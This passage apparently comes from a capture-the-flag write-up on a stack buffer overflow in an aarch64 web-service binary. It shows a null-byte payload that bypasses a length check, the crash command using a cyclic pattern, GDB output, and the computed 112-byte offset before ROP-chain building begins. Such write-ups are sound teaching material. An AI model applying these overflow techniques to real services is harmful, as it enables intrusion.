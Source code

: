 There's no checking for `\0` in the `%` block.  By using a payload of
`%\0buffer-overflow`, we can pass the `puVar4` length check above and overflow
the buffer.

To crash the system and find the distance to `x29` and `x30`:

```bash  
echo -e "GET /api/isodd/%\x00$(cyclic 1000)" | qemu-aarch64 -g 9000 mra  
```

GDB:

```  
$x30 : 0x6261616562616164  →  0x6261616562616164  
$sp  : 0x0000004000780a40  →  0x6261616362616162  →  0x6261616362616162  
$pc  : 0x0061616562616164  →  0x0061616562616164  
$cpsr: [negative ZERO CARRY overflow interrupt fast]  
$fpsr: 0x0000000000000000  →  0x0000000000000000  
$fpcr: 0x0000000000000000  →  0x0000000000000000  
─────────────────────────────────────────────────────────────────────────────────
stack ────  
0x0000004000780a40│+0x0000: 0x6261616362616162  →  0x6261616362616162    ← $sp  
0x0000004000780a48│+0x0008: 0x6261616562616164  →  0x6261616562616164  
0x0000004000780a50│+0x0010: 0x6261616762616166  →  0x6261616762616166  
0x0000004000780a58│+0x0018: 0x6261616962616168  →  0x6261616962616168  
0x0000004000780a60│+0x0020: 0x000000400078646a  →  0x0000000000000000  →
0x0000000000000000  
0x0000004000780a68│+0x0028: 0x00000040007809d8  →  0x616161626161610a  →
0x616161626161610a  
0x0000004000780a70│+0x0030: 0x000000000000002f  →  0x000000000000002f  
0x0000004000780a78│+0x0038: 0x0000008c0000008a  →  0x0000008c0000008a  
────────────────────────────────────────────────────────────────────────
code:arm64:ARM ────  
[!] Cannot disassemble from $PC  
[!] Cannot access memory at address 0x61616562616164  
```

Compute distance using the value from `x30`:

```  
# echo 6261616562616164 | xxd -r -p | rev ; echo  
daabeaab  
# cyclic 1000 | sed 's/daabeaab.*//g' | wc -c  
112  
```

> Our ROP chain starts after 112 bytes.

### Okay. Let's go shopping.

```  
# man 2 syscall  
...  
...  
...  
      Arch/ABI    Instruction           System  Ret  Ret  Error    Notes  
                                        call #  val  val2  
      ───────────────────────────────────────────────────────────────────  
      alpha       callsys               v0      v0   a4   a3       1, 6  
      arc         trap0                 r8      r0   -    -  
      arm/OABI    swi NR                -       a1   -    -        2  
      arm/EABI    swi 0x0               r7      r0   r1   -  
      arm64       svc #0                x8      x0   x1   -  
...  
...  
...  
      x86-64      syscall               rax     rax  rdx  -        5  
```
